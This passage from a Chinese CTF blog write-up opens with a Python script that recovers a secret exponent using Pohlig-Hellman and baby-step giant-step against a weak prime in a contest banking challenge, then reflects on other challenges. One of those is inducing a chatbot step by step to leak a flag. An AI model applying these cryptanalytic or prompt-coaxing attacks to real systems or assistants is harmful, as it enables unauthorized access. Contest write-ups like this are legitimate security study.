    current = 1
    for j in range(m):
        table[current] = j
        current = (current * g) % p

    # 计算g的逆元的m次方
    g_inv_m = pow(g, m * (p - 2), p)  # 使用费马小定理求逆元

    current = h
    for i in range(m):
        if current in table:
            j = table[current]
            x = i * m + j
            if x < bound:
                return x
        current = (current * g_inv_m) % p

    return None

def factorize(n, max_factor_size=2**30):
    """
    分解n，返回小于max_factor_size的质因子集合
    """
    factors = set()
    d = 2
    while d * d <= n and d <= max_factor_size:
        if n % d == 0:
            factors.add(d)
            n //= d
        else:
            d += 1
    if n > 1 and n <= max_factor_size:
        factors.add(n)
    return list(factors)

def crt(remainders, moduli):
    """
    中国剩余定理求解同余方程组
    x ≡ remainders[i] (mod moduli[i])
    """
    from functools import reduce

    def mod_inv(a, m):
        """求模逆元"""
        return pow(a, -1, m)

    M = reduce(lambda x, y: x * y, moduli)
    result = 0
    for i in range(len(moduli)):
        Mi = M // moduli[i]
        result = (result + remainders[i] * Mi * mod_inv(Mi, moduli[i])) % M
    return result

def pohlig_hellman_for_sign(deposit, c, big_prime):
    """
    使用Pohlig-Hellman算法求解sign，使得deposit^sign ≡ c (mod big_prime)
    """
    M = big_prime - 1

    # 分解M，获取小因子
    small_factors = factorize(M)

    if not small_factors:
        raise ValueError("无法找到足够小的因子，请尝试其他方法")

    # 计算M_small（小因子的乘积）
    M_small = 1
    for factor in small_factors:
        M_small *= factor

    print(f"分解得到的小因子: {small_factors}")
    print(f"M_small = {M_small}")

    remainders = []
    moduli = []

    # 对每个小因子求解离散对数
    for q in small_factors:
        exponent = M // q
        g_i = pow(deposit, exponent, big_prime)
        h_i = pow(c, exponent, big_prime)

        print(f"求解因子q={q}: g_i={g_i}, h_i={h_i}")

        x_i = bsgs(g_i, h_i, big_prime, q)

        if x_i is None:
            raise ValueError(f"无法求解因子q={q}的离散对数")

        print(f"得到x_i = {x_i} (mod {q})")

        remainders.append(x_i)
        moduli.append(q)

    # 使用中国剩余定理合并解
    sign = crt(remainders, moduli)

    # 确保sign在合理范围内
    sign = sign % M_small

    return sign

def main():
    # 手动输入参数
    big_prime = int(input("请输入big_prime: "))
    deposit = int(input("请输入deposit: "))
    c = int(input("请输入c: "))

    print(f"\n开始计算sign...")
    print(f"big_prime = {big_prime}")
    print(f"deposit = {deposit}")
    print(f"c = {c}")

    try:
        sign = pohlig_hellman_for_sign(deposit, c, big_prime)

        print(f"\n计算完成!")
        print(f"sign = {sign}")

        # 验证结果
        verification = pow(deposit, sign, big_prime)
        print(f"验证: deposit^sign mod big_prime = {verification}")
        print(f"验证结果: {'成功' if verification == c else '失败'}")

    except Exception as e:
        print(f"计算过程中出现错误: {e}")

if __name__ == "__main__":
    main()
```

最后进行3 validate your balance，获得flag

## 写在最后

### 杂感

+ 在2025年9月份参加新生赛的时候还没有blog，现在把之前写的wp搬运过来后，发现当时图片是本地化链接的，没有附带加载，所以这一篇只能简单看看作为记录了。

+ 笔者第一次参加的ctf比赛，准备不是非常充分，在之前只下载kali和看了看去年的题目。过程中很多题目都是和ai一起分析出来的，有点human-in-the-loop的味道。并且那个时候ai agentic能力还没有现在这么厉害，使用的也仅仅是DeepSeek的网页对话版本。

之前想过涉及到cve和web_search的题ai表现会不会差一点，但感觉去年强网那到go proxy转发放到现在对话式ai也可以自己解答了，看来最终归属只能是脑洞题了吗

### 吐槽

现在回看之前的wp，特发现了超级多可以吐槽的部分：

+ **Flagdle**: 感觉稍微有一点脑洞题目的意味，没想到作为签到程度，直接把提示当成答案提交就可以了。我还以为是要找到在全体词表里面不是英文单词的词，还专门下载了通用字典。

+ **ez_upload**: 是一道好题，在当时没有云端服务器的时候能作为远程代码托管平台，之后的bash_jail中发挥大作用。这道题最后的一步覆盖到cgi-bin/upload.py被卡了很久，ds拼劲全力无法解决，属于是少数属于我的eureka time

+ **flagophobia**: 当时完全没有套提示词的概念啊，还是一步诱导一步输出的flag的

+ **ez_osint**: 在深夜晚自习下课之后偶遇了多位正在找石头的师傅，最后近似定位到了花朵本身


<div style="display: flex; gap: 1.5rem; align-items: flex-start; flex-wrap: wrap; margin: 1rem 0;">

  <div style="flex: 1 1 60%; min-width: 280px;">
    <p>
    当时对于pwn一无所知，虽然现在也是一样（无奈），至今也只是稍微理解了些原理，不会写的依然不会写。<br></br>
    <strong>SUSBANK1:</strong> ds老师无能为力，仔细研读后发现可以尝试爆破小范围随机质数，是少有的第二个 eureka time。做这道题的时候有一个小趣事在于，做红温的时候楼下有学院办的心理团辅，把 susbank 的字写在象征着负面情绪的气球上踩爆之后，当晚就想出来了。<br></br>
    <strong>SUSBANK2</strong>: 是 AK 前的最后一关，在cpp课上猛猛看题，属于是少有的智力巅峰时刻，居然理解了题目并且在ai脚本的辅助下解决。</p>
  </div>

  <div style="flex: 1 1 30%; min-width: 200px;">
    
  </div>

</div>

### 致谢

非常感谢出题和答疑(shui qun)的师傅们，没有你们的支持这次肯定不能顺利完赛

> 预祝 SUSCTF@2026-新生赛 能越办越好 🎉
